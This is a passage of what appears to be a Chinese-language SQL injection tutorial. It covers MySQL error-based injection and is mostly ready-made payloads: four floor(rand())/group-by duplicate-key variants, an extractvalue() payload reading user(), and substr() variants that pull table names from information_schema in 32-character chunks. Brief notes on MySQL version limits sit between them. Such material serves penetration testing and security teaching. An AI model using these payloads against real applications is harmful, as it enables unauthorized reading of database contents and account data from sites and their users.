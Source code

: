 ```sql
# 方法1：使用 information_schema.tables 表（数据量较大）
and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)

# 方法2：使用 union 和子查询
and (select count(*) from (select 1 union select null union select !1)x group by concat(version(),floor(rand(0)*2)))

# 方法3：使用多表连接
and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables a,information_schema.tables b group by x)c)

# 方法4：使用 having 子句
and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x having count(*)>1)a)
```

> 适用于 MySQL 5.7.5 以下版本
>
> 可以获取任意数据
>
> 构造相对复杂
>
> 需要足够的数据量才能触发错误
>
> 受 MySQL 版本和配置影响较大

### 2. 基于 extractvalue() 的报错注入

`extractvalue()` 是 MySQL 的 XML 处理函数，用于从 XML 字符串中提取值。当 XML 格式不正确时，会返回错误信息，我们可以利用这个特性来获取数据。

```sql
and extractvalue(1,concat(0x7e,(select user()),0x7e))
```

> 构造简单
>
> 返回数据长度有限制（最多32个字符）
>
> 适用于 MySQL 5.1.5 及以上版本

**处理超过32个字符的方法**

1. **使用 substr() 函数分段获取**
```sql
# 获取前32个字符
and extractvalue(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,32),0x7e))

# 获取接下来的32个字符
and extractvalue(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),33,32),0x7e))

# 获取最后的部分
and extractvalue(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),65,32),0x7e))
```
